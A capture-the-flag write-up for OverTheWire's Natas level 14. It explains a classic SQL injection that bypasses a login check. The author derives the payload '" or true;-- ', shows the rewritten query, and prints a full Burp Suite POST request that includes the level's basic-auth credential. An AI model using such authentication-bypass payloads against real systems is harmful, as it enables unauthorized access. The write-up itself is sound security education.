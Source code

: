 # Natas 14

To get the password for the next level, the result of the query 
```sql
SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"
```
must return the result consisting of one or more lines (the check is at `mysqli_num_rows`). We obviously have no clue what is in the database, indeed any attempt in trying the `username` of `natas14` or `natas15` does not work.

This code is vulnerable to SQL injection, as we can directly manipulate the query to whatever we want. Also there is a debug function to help us out, by putting the URL parameter of `debug` in the POST request to the server. Submitting the form will do a POST request to the endpoint at `/index.php`. Hence, to enable the debug mode to see our command (which is very useful), we can use the intercept functionality, along with the in-app browser of Burp Suite to manipulate the URL parameter in the POST request to the backend.

We have no idea of the password in the database, hence we need a way to escape the query. Doing `"` at the beginning closes the first quotation mark in the `username` field. Of course no username matches `""` (empty string), hence we need a condition that is always True. Looking up on Google, we can see one common way is to put `or true` in the payload to make the result of the query always True. To escape all the conditions at the end of the query, again from simple Googling, we can use the comment in `mysql`: `--`. In MySQL, the `--`  (double-dash) comment style requires the second dash to be followed by at least one whitespace or control character (such as a space, tab, newline, and so on).

From all of the information above, our username field will be `" or true;-- ` (notice the space after the double-dash). The password field can be anything, due to the double dash `--` everything in the `password` comparison will be ignored anyways. I put `abcd` as the password. The query will become:

```sql
SELECT * from users where username="" or true;-- " and password="abcd"
```

Sending this using the in-app browser from Burp Suite, and change the POST endpoint to `/index.php`. The request will be something like 

```
POST /index.php?debug HTTP/1.1
Host: natas14.natas.labs.overthewire.org
Content-Length: 42
Cache-Control: max-age=0
Authorization: Basic bmF0YXMxNDpxUGF6U0pCbXJtVTdVUUp2MTdNSGsxUEdDNER4Wk1FUA==
Upgrade-Insecure-Requests: 1
Origin: http://natas14.natas.labs.overthewire.org
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://natas14.natas.labs.overthewire.org/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

username=%22+or+true%3B--+++&password=abcd
```
